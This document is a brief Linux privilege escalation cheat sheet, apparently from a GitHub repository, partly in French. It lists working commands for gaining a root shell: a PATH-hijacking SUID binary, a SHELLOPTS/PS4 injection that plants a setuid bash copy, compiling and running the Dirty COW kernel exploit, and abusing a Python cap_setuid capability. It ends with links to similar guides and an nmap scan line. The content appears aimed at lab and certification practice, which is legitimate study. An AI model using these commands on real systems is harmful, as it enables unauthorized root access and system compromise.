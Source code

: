 ### SUID/SGID EVIRONNEMENT VARIABLE
```
sudo -l / output suid-env
echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/service.c
gcc /tmp/service.c -o /tmp/service
export PATH=/tmp:$PATH
/usr/local/bin/suid-env
```
```bash
sudo -l / output suid-env2
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

### KERNEL EXPLOIT :
1 ) run the linux exploit suggester_pl   
$ perl PATH/SCRIPT.PL  
2 ) use the desired vuln : here dirty cow  
compile :
```bash
$ gcc -pthread /home/user/tools/kernel-exploits/dirtycow/c0w.c -o c0w
```
run and let it finish : 
```
$ ./c0w	
$ /usr/bin/passwd	-> allow to gain te root shell
```
### CAPABILITIES
```bash
getcap -r / 2>/dev/null
```
From the output, notice the value of the “cap_setuid” capability.  
#### Example : 
/usr/bin/python2.6 = cap_setuid+ep
```bash
/usr/bin/python2.6 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```


Les endroits où faire des recherches:
https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md
https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html
https://payatu.com/guide-linux-privilege-escalation



# CHEATSHEET 

### ENUMERATION :
```bash
nmap -p- -vv -sV IP
```
